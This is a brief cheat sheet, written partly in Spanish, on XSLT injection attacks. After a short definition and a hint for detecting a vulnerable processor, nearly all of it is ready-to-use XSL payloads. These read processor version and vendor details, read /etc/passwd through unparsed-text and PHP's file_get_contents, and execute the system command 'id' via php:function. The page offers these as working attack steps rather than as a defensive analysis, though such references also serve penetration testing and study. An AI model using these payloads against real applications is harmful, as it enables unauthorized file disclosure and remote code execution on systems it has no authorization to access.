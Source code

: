 eXtensible Stylesheet Language Transformation (XSLT) is a language enabling the transformation of XML documents. For instance, it can select specific nodes from an XML document and change the XML structure.


## Identifying XSLT Injection

Si le metemos `<` y es vulnerable nos lanzará un error

## Information Disclosure

```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

## LFI

Dependiendo de la version nos dara error o no

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

## RCE 

```xml
<xsl:value-of select="php:function('system','id')" />
```

